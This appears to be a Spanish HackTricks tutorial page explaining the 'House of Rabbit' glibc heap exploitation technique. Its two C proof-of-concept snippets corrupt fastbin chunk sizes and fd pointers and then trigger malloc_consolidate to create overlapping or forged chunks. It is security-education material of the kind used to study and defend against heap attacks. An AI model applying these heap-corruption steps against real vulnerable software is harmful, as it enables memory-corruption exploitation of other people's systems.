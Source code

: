 # Casa del Conejo

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Experto en Equipo Rojo de AWS de HackTricks)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si deseas ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén la [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte tus trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>

### Requisitos

1. **Capacidad para Modificar el Puntero fd o el Tamaño de Fastbin**: Esto significa que puedes cambiar el puntero forward de un fragmento en el fastbin o su tamaño.
2. **Capacidad para Desencadenar `malloc_consolidate`**: Esto se puede hacer ya sea asignando un fragmento grande o fusionando el fragmento superior, lo que obliga al montón a consolidar fragmentos.

### Objetivos

1. **Crear Fragmentos Superpuestos**: Para que un fragmento se solape con otro, permitiendo manipulaciones adicionales del montón.
2. **Forjar Fragmentos Falsos**: Para engañar al asignador para que trate un fragmento falso como un fragmento legítimo durante las operaciones del montón.

## Pasos del Ataque

### POC 1: Modificar el Tamaño de un Fragmento Fastbin

**Objetivo**: Crear un fragmento superpuesto manipulando el tamaño de un fragmento fastbin.

* **Paso 1: Asignar Fragmentos**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x40);  // Allocates another chunk of 0x40 bytes at 0x602050
malloc(0x10);                          // Allocates a small chunk to change the fastbin state
```
* **Paso 2: Liberar Chunks**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
free(chunk2);  // Frees the chunk at 0x602050
```
* **Paso 3: Modificar el Tamaño del Chunk**
```cpp
chunk1[-1] = 0xa1;  // Modify the size of chunk1 to 0xa1 (stored just before the chunk at chunk1[-1])
```
* **Paso 4: Desencadenar `malloc_consolidate`**
```cpp
malloc(0x1000);  // Allocate a large chunk to trigger heap consolidation
```
Asignar un gran fragmento desencadena la función `malloc_consolidate`, fusionando fragmentos pequeños en el fastbin. El tamaño manipulado de `chunk1` hace que se solape con `chunk2`.

Después de la consolidación, `chunk1` se solapa con `chunk2`, lo que permite una mayor explotación.

### POC 2: Modificar el Puntero FD

**Objetivo**: Crear un fragmento falso manipulando el puntero fd del fastbin.

* **Paso 1: Asignar Fragmentos**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x100); // Allocates a chunk of 0x100 bytes at 0x602050
```
**Explicación**: Asignamos dos fragmentos, uno más pequeño y otro más grande, para configurar el montón para el fragmento falso.

* **Paso 2: Crear Fragmento Falso**
```cpp
chunk2[1] = 0x31;  // Fake chunk size 0x30
chunk2[7] = 0x21;  // Next fake chunk
chunk2[11] = 0x21; // Next-next fake chunk
```
* **Paso 3: Liberar el Chunk1**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
```
**Explicación**: Liberamos `chunk1`, añadiéndolo a la lista fastbin.

* **Paso 4: Modificar FD de Chunk1**
```cpp
chunk1[0] = 0x602060;  // Modify the fd of chunk1 to point to the fake chunk within chunk2
```
**Explicación**: Cambiamos el puntero hacia adelante (fd) de `chunk1` para que apunte a nuestro chunk falso dentro de `chunk2`.

* **Paso 5: Desencadenar `malloc_consolidate`**
```cpp
malloc(5000);  // Allocate a large chunk to trigger heap consolidation
```
Al asignar nuevamente un gran fragmento se activa `malloc_consolidate`, que procesa el fragmento falso.

El fragmento falso se convierte en parte de la lista fastbin, convirtiéndose en un fragmento legítimo para futuras explotaciones.

### Resumen

La técnica de la **Casa del Conejo** implica modificar el tamaño de un fragmento fastbin para crear fragmentos superpuestos o manipular el puntero fd para crear fragmentos falsos. Esto permite a los atacantes forjar fragmentos legítimos en el montón, lo que habilita diversas formas de explotación. Comprender y practicar estos pasos mejorará tus habilidades de explotación de montón.

